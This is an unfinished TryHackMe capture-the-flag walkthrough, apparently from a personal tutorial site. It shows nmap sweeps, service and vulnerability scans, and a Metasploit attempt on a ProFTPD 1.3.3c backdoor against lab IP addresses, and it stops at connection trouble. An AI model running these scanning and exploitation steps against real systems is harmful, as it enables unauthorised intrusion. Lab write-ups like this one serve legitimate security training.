 ```yaml
---
layout: page
title: MiroLabsCapstone
permalink: /Tutorials/TryHackMe/MiroLabsCapstone/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
<br/><br/>
<br/><br/>
<br/><br/>
Flags will be **BOLD**
<br/><br/>
<br/><br/>
<br/><br/>


LETS GET SOME ROOT!
----

Since this one is a "Black Box" scenario we need to just try everything we can



First lets find the correct IP

```nmap -n -sn 10.10.77.0-255```

<img src="/images/TryHackMe/MiroLabsCapstone/IPs.png">

Looks like we have 2 possible choices, lets look into them

```nmap 10.10.77.78```

```nmap 10.10.77.141```

<img src="/images/TryHackMe/MiroLabsCapstone/IP_Results.png">

Lets go with the "basic" IP of 78 due to having 3 common exploitable port types

Lets look for any low hanging fruit

```sudo nmap  --script vuln -p 21-80 10.10.77.78 -v```

This just seemed to freeze after 5ish minutes


Now lets try to see what is running

```nmap -Pn -sV 10.10.77.78```

<img src="/images/TryHackMe/MiroLabsCapstone/Services.png">

Well this looks like it could be promising... Lets lookup that ProFTPD version

```msfconsole```

```search ProFTPD 1.3.3c```

<img src="/images/TryHackMe/MiroLabsCapstone/Exploit.png">

We see that we may have a backdoor command we can try

```use 4```

```set RHOSTS 10.10.77.78```

```show options```

<img src="/images/TryHackMe/MiroLabsCapstone/Show.png">

Lets try to run it!

```run```

Annnnnnddddd..... Fail...hmmmm lets look this up

<img src="/images/TryHackMe/MiroLabsCapstone/RunFail.png">

(This Link)[Https://nmap.org/nsedoc/scripts/ftp-proftpd-backdoor.html]  This link shows a possible answer

**nmap --script ftp-proftpd-backdoor -p 21 <host>**

```nmap --script ftp-proftpd-backdoor -p 21 10.10.77.78```

<img src="/images/TryHackMe/MiroLabsCapstone/Backdoor.png">

Well.. Yay? that was a bit anticlimactic... Now how do we use it?

After a new connection we have a new IP 10..10.38.231
  
More connection issues.. lets reboot
 
<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
